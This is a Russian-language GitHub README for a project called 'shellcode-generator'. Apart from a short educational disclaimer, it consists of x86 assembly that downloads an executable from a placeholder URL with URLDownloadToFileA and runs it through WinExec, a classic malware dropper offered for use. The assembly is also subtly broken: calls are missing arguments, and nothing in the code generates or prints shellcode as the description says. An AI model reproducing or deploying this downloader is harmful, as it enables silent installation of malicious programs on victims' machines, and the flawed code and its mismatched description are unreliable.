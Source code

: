 # shellcode-generator

Программа генерирует шеллкод (машинные инструкции) и выводит их на экран.
Данный шеллкод загружает файл по ссылке и запускает его.

Программу запрещается использовать в противоправных целях. Она реализована в целях обучения.
В данной программу нет реального выполнения шеллкода. Выполнение шеллкода остается на усмотрение того, кто использует программу.
Обращаю внимание, что использование программы может быть запрещено местным законодательством вашей страны, а так же нарушать этические нормы и правила общества.

section .text
    global _start

_start:
    ; Инициализация библиотеки URLMON.dll
    push offset urlmon_dll
    call LoadLibraryA

    ; Загрузка файла по ссылке
    push 0
    push offset url
    push offset file_path
    call URLDownloadToFileA

    ; Загрузка библиотеки kernel32.dll
    push offset kernel32_dll
    call LoadLibraryA

    ; Получение адреса функции WinExec
    push offset win_exec
    push eax
    call GetProcAddress

    ; Запуск загруженного файла
    push offset file_path
    call eax

    ; Выход
    push 0
    call ExitProcess

section .data
    urlmon_dll db 'urlmon.dll', 0
    kernel32_dll db 'kernel32.dll', 0
    url db 'http://example.com/file.exe', 0
    file_path db 'C:\path\to\save\file.exe', 0
    win_exec db 'WinExec', 0

section .idata
    dd 0,0,0,0,0
    URLDownloadToFileA dd 0, 0, 0, 0
    LoadLibraryA dd 0, 0, 0, 0
    GetProcAddress dd 0, 0, 0, 0
    ExitProcess dd 0, 0, 0, 0
